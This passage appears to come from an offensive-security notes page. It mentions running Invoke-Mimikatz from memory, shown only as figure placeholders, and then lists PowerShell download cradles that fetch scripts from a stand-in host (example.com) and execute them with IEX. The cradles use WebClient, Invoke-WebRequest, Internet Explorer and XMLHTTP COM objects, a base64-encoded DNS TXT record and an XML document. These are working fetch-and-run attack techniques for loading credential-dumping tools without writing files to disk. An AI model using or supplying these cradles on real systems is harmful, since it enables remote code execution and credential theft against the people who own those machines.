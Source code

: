 -   **Load Script into memory**:
    -

    -   {{< figure src="/ox-hugo/2024-11-12-103931_.png" >}}

-   **Running Invoke-Mimikatz from memory**:
    -   {{< figure src="/ox-hugo/2024-11-12-104010_.png" >}}


## Common Download Cradle Examples: {#common-download-cradle-examples}


### Basic WebClient Method {#basic-webclient-method}

```powershell
# Standard WebClient download cradle
IEX (New-Object Net.Webclient).downloadstring("https://example.com/script.ps1")

# PowerShell 3.0+ using Invoke-WebRequest (alias: iwr)
IEX (iwr 'https://example.com/script.ps1')
```


### COM Object Methods {#com-object-methods}

```powershell
# Internet Explorer COM object
$ie = New-Object -comobject InternetExplorer.Application
$ie.visible = $False
$ie.navigate('https://example.com/script.ps1')
start-sleep -s 5
$r = $ie.Document.body.innerHTML
$ie.quit()
IEX $r

# Msxml2.XMLHTTP COM object (proxy-aware)
$h = New-Object -ComObject Msxml2.XMLHTTP
$h.open('GET','https://example.com/script.ps1',$false)
$h.send()
iex $h.responseText
```


### Advanced Download Cradle Techniques: {#advanced-download-cradle-techniques}

```powershell
# DNS TXT Record Method
IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(
    ((nslookup -querytype=txt "example.com" | Select -Pattern '"*"') -split '"'[0])
)))

# XML Document Method
$a = New-Object System.Xml.XmlDocument
$a.Load("https://example.com/command.xml")
$a.command.a.execute | iex
```
